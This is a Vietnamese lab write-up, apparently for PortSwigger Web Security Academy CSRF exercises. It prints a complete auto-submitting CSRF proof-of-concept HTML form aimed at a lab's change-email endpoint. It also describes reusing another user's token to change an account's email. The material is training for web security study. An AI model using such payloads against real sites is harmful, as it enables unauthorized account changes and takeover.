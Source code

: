 - Đối với bài này tôi đã thực hiện 2 cách test như sau:
  - Đầu tiên tôi đã thử loại bỏ CSRF token, request vẫn gửi thành công.
  - Tôi đã thử chuyển phương thức `POST` thành `GET`

- Sau 2 lần thử nghiệm tôi đã vt script tấn công như sau:

```javascript
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a750014045940adc38c42af00a60027.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="admin1&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

> ### **CSRF where token is not tied to user session**

- Sau những lần tôi thử nghiệm thì sau mỗi lần tôi thay đổi email của người dùng thì `csrf token` nó sẽ thay đổi sau những lần tôi đổi email.
- Vì đề bài đã cho tôi 2 tài khoản.Tôi liền nghĩ vậy mục đích đề ra cung cấp cho tôi 2 tài khoản là gì?. Dường như tôi đặt ra nghi vấn liệu nếu tôi sử dụng csrf token của tài khoản khác thay vào tài khoản mình liệu mình có thành công update được email hay không.

![](./img_csrf/csrf-3.png)

- tôi đã thử lấy csrf token của tài khoản `carlos` và tạo một request gửi đi để thay đổi email của người dùng tài khoản `wiener` và điều ấy đã thành công vậy tôi chỉ cần lấy crsf token của tôi thay đổi email tài khoản khác ^_^.

![](./img_csrf/csrf-3.png)

